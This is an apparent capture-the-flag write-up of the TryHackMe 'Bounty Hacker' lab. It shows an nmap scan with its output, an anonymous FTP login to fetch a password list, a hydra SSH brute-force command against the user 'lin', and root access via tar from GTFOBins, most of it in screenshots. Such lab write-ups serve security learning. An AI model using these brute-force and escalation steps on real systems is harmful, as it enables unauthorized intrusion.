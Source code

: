 # TryHackMe-BountyHackerCTF
Abdullah Rizwan , Friday 28 August , 05:34 PM

## NMAP

```
nmap -sC -sV 10.10.187.202
```

```
st is up (0.16s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.94.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernelp

```

## PORT 80

<a href="https://imgur.com/yWhYYLR"><img src="https://i.imgur.com/yWhYYLR.png" title="source: imgur.com" /></a>


## Dirbuster

<a href="https://imgur.com/1tJ2fbA"><img src="https://i.imgur.com/1tJ2fbA.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/bsZXqQt"><img src="https://i.imgur.com/bsZXqQt.png" title="source: imgur.com" /></a>

Since we have access to ftp through "anonymous" login we can upload a php reverse shell.

## PORT 21

<a href="https://imgur.com/Yzi3RVj"><img src="https://i.imgur.com/Yzi3RVj.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/2PEM3XF"><img src="https://i.imgur.com/2PEM3XF.png" title="source: imgur.com" /></a>


We can grab the task.txt through "get" command.

<a href="https://imgur.com/cXcctEl"><img src="https://i.imgur.com/cXcctEl.png" title="source: imgur.com" /></a>

We also found a list of passwords so that we can use it in brute forcing.

<a href="https://imgur.com/EQI8x3Z"><img src="https://i.imgur.com/EQI8x3Z.png" title="source: imgur.com" /></a>

## PORT 22

By looking at the text file we can check if "lin" is a user on that box so we can bruteforce our way in through ssh by using hyrda.

```
hydra -l lin -P locks.txt ssh://$IP -t 4
```
$IP is nothing but a variable for bash environment , export IP=10.10.187.202.


<a href="https://imgur.com/1q78mpp"><img src="https://i.imgur.com/1q78mpp.png" title="source: imgur.com" /></a>

We found the password for "lin".

<a href="https://imgur.com/8XILjSX"><img src="https://i.imgur.com/8XILjSX.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/M4DQ6cV"><img src="https://i.imgur.com/M4DQ6cV.png" title="source: imgur.com" /></a>

We can root the box through "/bin/tar" we can find exploit to it by visiting GTFOBINS.

<a href="https://imgur.com/c8r4CsV"><img src="https://i.imgur.com/c8r4CsV.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/wsGPsPb"><img src="https://i.imgur.com/wsGPsPb.png" title="source: imgur.com" /></a>

We are now root and we can read that root.txt flag in order to complete the CTF.
